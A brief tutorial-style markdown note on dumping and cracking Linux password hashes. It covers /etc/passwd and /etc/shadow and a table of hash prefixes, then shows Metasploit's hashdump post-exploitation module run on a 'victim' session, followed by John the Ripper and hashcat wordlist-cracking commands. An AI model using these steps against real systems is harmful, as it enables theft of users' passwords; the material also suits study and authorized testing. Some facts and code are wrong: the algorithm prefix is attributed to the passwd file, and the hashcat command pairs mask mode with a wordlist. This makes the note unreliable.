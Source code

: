 # Dumping and cracking linux passwords hashes

- Linux has multi-user support and as a result, multiple users can access the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.

- All of information for all accounts on Linux is stored in the passwd file located in : /etc/passwd

- We cannot view the passwords for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the system.

- All the encrypted passwords for the users are stored in the shadow file. It can be found in the following directory : /etc/shadow.

- The shadow files can only be accessed and read by the root account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords.

- The passwd file gives us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsultated by the dollar symbol ($).

| Value | Hashing Algorithm |
|-------|-------------------|
| $1    | MD5               |
| $2    | Blowfish          |
| $5    | SHA-256           |
| $6    | SHA-512           |

## Dumping with Metasploit

We have a meterpreter session open on the victim machine.

Then we can use the hashdump module of the metasploitable framework :

```text
use post/linux/gather/hashdump
set SESSION 2
run
```

## Cracking

```text
:~# john --format=sha512crypt /root/.msf4/loot/****.txt --wordlist=/usr/share/wordlists/rockyou.txt
:~# hashcat -a3 -m 1800 /root/.msf4/loot/****.txt /usr/share/wordlists/rockyou.txt
```